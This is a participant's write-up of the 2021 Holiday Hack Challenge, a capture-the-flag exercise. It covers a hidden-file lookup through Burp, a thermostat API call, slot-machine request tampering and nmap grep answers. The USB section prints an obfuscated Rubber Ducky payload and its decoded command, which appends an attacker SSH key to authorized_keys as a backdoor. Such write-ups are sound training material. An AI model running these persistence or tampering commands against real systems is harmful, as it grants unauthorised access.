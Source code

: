 # HolidayHackChallenge2021
**<p align="center">**
![image](https://user-images.githubusercontent.com/33500545/148440994-34860215-6845-493c-b5b1-a9d237360875.png)
</p>
<p align="center">
Notes from 2021 HolidayHackChallenge
</p>




# Now Hiring
You are directed to apply for a job over at https://apply.jackfrosttower.com/
So first thing is to check the site out, when you click on Opportunities you will notice that the images do not load.  There are 4 images (1.jpg, 2.jpg,3.jpg,4.jpg).
So I decided to run this through burp as the images aren’t valid it seems.

I enabled my proxy and went to apply.jackfrosttower.com/images and that resulted in a ngix error, I then sent that request to repeater, and in repeater i tried 1.jpg, with no result.  Then i tried 2.jpg and found the super secret key.
No WIN
![image](https://user-images.githubusercontent.com/33500545/148627937-e53e60be-4605-48fd-bc20-01a8a781c8cc.png)
WIN
![image](https://user-images.githubusercontent.com/33500545/148627923-aa7de3c7-2f85-4439-83f7-bc1c762baa12.png)

# Strange USB Device

Ducky-decode.pl inject.bat
Echo ‘==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ’ | rev

Echo 
'ZWNobyAnc3NoLXJzYSBVbU41UkhKWldIZHJTSFJvZG1WdGFWcDBkMWwzVTJKcVoyZG9SRlJIVEdSdFQwWnpTVVpOZHlCVWFHbHpJR2x6SUc1dmRDQnlaV0ZzYkhrZ1lXNGdVMU5JSUd0bGVTd2dkMlVuY21VZ2JtOTBJSFJvWVhRZ2JXVmhiaTRnZEVGS2MwdFNVRlJRVldwSFpHbE1SbkpoZFdkU1QyRlNhV1pTYVhCS2NVWm1VSEFLIGlja3ltY2dvb3BAdHJvbGxmdW4uamFja2Zyb3N0dG93ZXIuY29tJyA+PiB+Ly5zc2gvYXV0aG9yaXplZF9rZXlzCg==' | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys

# Frost Ice Melt Castle
```
Iwlist wlan0 scanning
Iwconfig wlan0 essid FROST-Nidus-Setup
“* New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup”
Curl http://ndius-setup:8080/
```
Need to adjust the api: 
```http://nidus-setup:8080/apidoc
elf@85f15cd56977
```
Run this twice: 
```
curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -0}' \
  http://nidus-setup:8080/api/cooler
```
![image](https://user-images.githubusercontent.com/33500545/148628021-70fd4605-b318-4324-b059-d267c73c91d9.png)

# Slot Machine Investigation

Go to: https://slots.jackfrosttower.com/
Press F12 (Firefox Developer Tools)
Click on Network
Click SPIN once
![image](https://user-images.githubusercontent.com/33500545/148628055-9f3c3676-fbfc-4b55-82ea-c934bf88b186.png)

On the right where you see Resend click the drop/up arrows and choose edit/resend and modify the cpl=0.1 to cpl=0.99
![image](https://user-images.githubusercontent.com/33500545/148628064-4c26c0d2-e463-485d-9508-c06756be4645.png)
Click Send and go back and check the response, if you win it will increase.

# Grep for Gold
What port does 34.76.1.22 have open? 
```62078```
What port does 34.77.207.226 have open? 
```8080```
How many host appear “Up” in the scan? 
```26054```
Nano bigscan.gnmap and its in the final line.
How many host have a web port open? 
```17238```
How many host have a wep port open? 
```14372
grep -E "80/open|443/open|8080/open" -E "/Status: Up" -c bigscan.gnmap
```
How many host with status up have no detected open tcp ports?
```1st part - grep -c "Status: Up" bigscan.gnmap```
(minus)
```2nd part - grep -wc "tcp"  bigscan.gnmap```
```= 402```
Whats the greatest number of TCP ports any one host has opened?
I just cycled through quizme until I hit 12.  Then i went back and did this:
```grep -E "(open.*){12,}" bigscan.gnmap | wc -l && grep -E "(open.*){13,}" bigscan.gnmap | wc -l```


